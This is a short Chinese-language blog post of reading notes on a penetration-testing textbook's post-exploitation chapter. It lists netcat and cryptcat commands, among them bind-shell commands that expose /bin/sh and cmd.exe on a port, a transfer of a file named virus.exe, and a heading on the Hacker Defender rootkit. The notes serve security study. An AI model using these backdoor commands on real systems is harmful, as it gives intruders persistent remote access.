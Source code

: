 ```yaml
---
layout: post
title: The Basics of Hacking and Penetration Testing Part4
key: 20180406
category: books
tags:
  - 读书笔记
lang: zh
---
```

	
CHAPTER7 Post Exploitation and Maintaining Access with Backdoors, Rootkits, and Meterpreter
--------------------------------------

1、netcat

&ensp;&ensp;1、“聊天”

Server:  `nc –l –p 1337`

Client:   `nc 192.168.18.132 1337`

建立一个TCP连接

&ensp;&ensp;2、传输文件

server： `nc –l –p 7777 > virus.exe`

client：  `nc 172.16.45.129 7777 < virus.exe`

&ensp;&ensp;3、获取banner信息

`nc 192.168.18.132 50001`

输入一些内容，查看返回信息

&ensp;&ensp;4、正反向shell

Server：

`nc –l –p 12345 –e /bin/sh`

`nc.exe –L –p 12345 c:\Windows\System32\cmd.exe`

Client：

`nc 192.168.1.1 12345`

2、加密版的netcat：Cryptcat

1.	使用-k选项修改默认密钥
	
2.	Server：`cryptcat –l –p 5757`

3.	Client；`cryptcat 192.168.18.132 5757`

3、Rootkits - Hacker Defender

配置文件：

 <div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/8.png" alt="渗透测试流程8" height="50%" width="50%" />
</div>
